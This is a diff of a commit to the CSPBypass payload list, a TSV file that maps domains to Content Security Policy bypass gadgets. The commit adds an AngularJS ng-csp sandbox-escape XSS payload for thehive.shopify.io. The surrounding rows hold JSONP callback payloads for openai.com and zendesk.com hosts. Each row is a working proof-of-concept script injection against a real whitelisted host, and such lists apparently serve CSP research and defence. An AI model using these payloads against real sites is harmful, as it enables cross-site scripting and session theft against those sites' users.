

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows.

Commit message:
Added thehive.shopify.io

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -117,2 +117,3 @@ tagmanager.google.com	<script src="https://tagmanager.google.com/debug/api/vtinf
 tcr9i.openai.com	<script src="https://tcr9i.openai.com/fc/a/?callback=alert"></script>
+thehive.shopify.io	<body ng-app ng-csp><script src="https://thehive.shopify.io/scripts/vendor.78eed977.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
 thiscanbeanything.zendesk.com	<script src="https://thiscanbeanything.zendesk.com/sc/faye/?message=[{%22channel%22:%22%22}]&jsonp=alert"></script>
```
